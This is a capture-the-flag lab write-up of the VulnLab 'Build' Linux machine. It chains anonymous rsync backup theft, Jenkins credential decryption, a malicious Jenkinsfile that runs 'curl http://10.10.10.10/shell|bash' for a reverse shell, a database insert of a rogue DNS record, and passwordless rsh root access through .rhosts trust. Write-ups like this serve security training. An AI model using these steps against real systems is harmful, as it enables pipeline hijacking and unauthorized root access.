


# VulnLab - Build Writeup


Build is an medium VulnLab Linux machine that starts with public access to a Gitea instance, continues through exposed rsync backups and Jenkins credential recovery, and finishes with rsh-based root access after DNS database tampering. The chain is a nice mix of source control leakage, CI pipeline abuse, container-to-host pivoting, and legacy service exploitation.

## Reconnaissance

The initial scan showed a small but interesting attack surface: SSH, DNS, rsh services, rsync, and a web app on port 3000 that turned out to be Gitea.

```bash
nmap -sV -sC -Pn 10.10.118.222
```

The scan output identified:

- SSH on 22.
- PowerDNS on 53.
- rsh-related services on 512, 513, and 514.
- rsync on 873.
- Gitea on 3000.
- MySQL on 3306 was filtered.

That combination suggested a build or automation environment, which turned out to be accurate.

## Gitea Access

Browsing to the Gitea instance showed only one public repository, `dev`, belonging to `buildadm`. The repository was not immediately useful by itself, but it hinted that the host was running some kind of CI/CD workflow.



The repository contents did not expose credentials directly, so I shifted focus to the backup surface exposed by rsync.

## Rsync Backup

Anonymous rsync access worked, and the `backups` module contained a very large `jenkins.tar.gz` archive.

```bash
rsync -av --list-only rsync://10.10.118.222/backups
mkdir backups
rsync -av rsync://10.10.118.222/backups backups
```

Instead of manually digging through the archive, I used a Jenkins credential extraction utility against the extracted backup contents with https://github.com/thesubtlety/go-decrypt-jenkins/releases . That recovered a valid password for `buildadm` and a password hash for `admin`.

```bash
./go-decrypt-jenkins-linux-amd64 -d jenkins_configuration
```

With `buildadm` credentials in hand, I could authenticate to Gitea and modify the repository.



## Jenkins Pipeline Abuse

The repository’s `Jenkinsfile` strongly suggested that it was tied to a Jenkins pipeline. After confirming the webhook behavior, I replaced the file with a minimal pipeline that downloaded and executed a reverse shell payload from my web server.

make sure to create the shell revershell so the target sends request to grab the shell.

```groovy
pipeline {
    agent any
    stages {
        stage('Do nothing') {
            steps {
                sh 'curl http://10.10.10.10/shell|bash'
            }
        }
    }
}
```

Once the pipeline ran, I received a callback as `root` inside a container. That foothold was not yet host root, but it gave filesystem access and useful local clues.

## Container Context

Inside the container, the root home directory contained an `.rhosts` file. That file was the key pivot point because it allowed passwordless `rsh` access from specific hostnames.

```text
admin.build.vl +intern.build.vl +
```

The presence of this file suggested legacy trust-based access on the host side. I also noted that the container’s `/etc/hosts` revealed an internal address for the current system, which helped identify the actual host network.

## Host Network Pivot

The next problem was reaching the host’s internal database services. To do that, I brought in a tunneling tool and opened a SOCKS proxy into the host network.

```bash
proxychains -q mysql -u root -h 172.18.0.1 --skip-ssl --silent
```

That provided access to the PowerDNS backend database. Listing the databases and tables showed a `powerdnsadmin` schema containing DNS records.

```sql
show databases;
use powerdnsadmin;
show tables;
select * from records;
```

The records table revealed the configured build-related DNS entries, including `db.build.vl`, `gitea.build.vl`, `intern.build.vl`, `jenkins.build.vl`, `pdns-worker.build.vl`, and `pdns.build.vl`. Notably, `admin.build.vl` was missing even though it was present in the `.rhosts` trust list.

## DNS Tampering

Since I had database-level access, I inserted a new DNS record for `admin.build.vl` pointing to my IP address.

```sql
INSERT INTO records (id, domain_id, name, type, content, ttl, prio, disabled, ordername, auth)
VALUES (15, 1, "admin.build.vl", "A", "Attacker-ip", 60, 0, 0, NULL, 1);
```

A DNS query confirmed the new record resolved as expected.

```bash
nslookup admin.build.vl Attacker-ip
```

That completed the missing prerequisite for legacy rsh access. now we can login as root in rsh with out a password prompt 

## Root Shell

With the DNS name resolving to my host and `.rhosts` permitting trust-based access, I connected using `rsh` as root.

```bash
rsh 10.10.118.222 -l root
id
```

That dropped me into a root shell on the host system, completing the machine.

## Attack Path

- Enumerate the host and identify Gitea, rsync, DNS, and rsh services.
- Inspect the public Gitea repository.
- Pull `jenkins.tar.gz` from rsync anonymously.
- Extract Jenkins credentials from the backup.
- Log into Gitea as `buildadm`.
- Replace the Jenkins pipeline with a reverse shell payload.
- Gain root inside the container.
- Find the `.rhosts` trust configuration.
- Pivot into the host database through the internal network.
- Insert a DNS record for `admin.build.vl`.
- Resolve the hostname and connect via `rsh` as root.
